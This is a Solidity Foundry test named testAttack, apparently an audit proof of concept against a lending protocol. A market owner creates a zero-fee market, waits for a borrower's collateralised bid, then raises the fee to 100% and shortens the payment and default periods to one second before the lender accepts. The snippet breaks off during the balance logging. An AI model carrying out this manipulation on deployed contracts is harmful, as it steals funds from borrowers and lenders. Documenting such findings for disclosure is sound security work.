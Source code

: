 ```solidity

    function testAttack() public {
        
        vm.startPrank(address(marketOwner));
        marketRegistry.createMarket(
            address(marketOwner),
            30 days, 
            10,       //_paymentDefaultDuration 
            1 days,   //_bidExpirationTime
            0,        //feePercent  <<==Fee is 0
            false,    //lenderAttest
            false,    //borrowerAttest
            "mytestURI"
        );
        vm.stopPrank();

        //Bid with collateral
        Collateral[] memory collateral = new Collateral[](1);
        Collateral memory collateral_1 = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 100e18, //set ollateral here
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateral[0] = collateral_1;
        console.log("===========================BEFORE submitBid======================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Collaterall Proxy ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        vm.startPrank(address(borrower));
        tellerV2.submitBid(
            address(lendingToken), // lending token
            1, //_marketplaceId
            50e18, // principal
            365 days, // duration
            0, // interest rate 
            "", // metadata URI
            address(borrower), // receiver
            collateral
        );
        lendingToken.approve(address(collateralManager),100e18);
        vm.stopPrank();
        
        //attacker configures market to steal funds
        vm.startPrank(address(marketOwner));
        marketRegistry.setMarketFeePercent(1,10000);
        marketRegistry.setPaymentCycle(1,PaymentCycleType.Seconds,1);
        marketRegistry.setPaymentDefaultDuration(1,1);
        vm.stopPrank();

        vm.startPrank(address(lender));
        tellerV2.lenderAcceptBid(0);

        console.log("===========================AFTER lenderAcceptBid====================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
```